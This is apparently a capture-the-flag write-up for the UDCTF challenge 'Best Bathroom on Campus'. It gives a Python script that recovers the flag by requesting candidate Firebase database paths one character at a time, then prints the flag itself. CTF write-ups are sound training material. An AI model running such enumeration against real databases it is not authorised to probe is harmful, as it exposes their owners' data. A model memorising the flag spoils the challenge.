

# Best Bathroom on Campus 

## Description

> 
> 
> https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF.json


## Write-Up

Seems a pretty straight forward challenge, where from the picture we can deduce that we will be bruteforcing the `.json` file name to get the flag, let's script this up:

```py
import requests
import string

# URL of the API or website you want to send a request to

readable_chars = string.printable.replace("/", "")

base_url = "https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF{"

try:

    while True:
        for i in readable_chars:
            url = base_url + i + ".json"

            # Send a GET request to the URL
            response = requests.get(url)

            # Check if the request was successful (status code 200)
            if response.status_code == 200:
                # Capture and display the content of the response
                data = response.text
                if data == "true":
                    print(url)
                    base_url += i
                    # Let it finish the list, apperantly it's much faster then repeating
                    # break
                else:
                    print("Pass: ", i)
            else:
                print(f"Request failed with status code: {response.status_code}")
except requests.exceptions.RequestException as e:
    # Handle request exceptions (e.g., network issues, URL not found, etc.)
    print(f"Request error: {e}")
```

From there we get :

```
https://best-bathroom-default-rtdb.firebaseio.com/flag/UDCTF{1ce_L4br4t0ry_s3C0nd_Fl0or_b0y's_b4thr00m}.json
```

## Flag

UDCTF{1ce_L4br4t0ry_s3C0nd_Fl0or_b0y's_b4thr00m}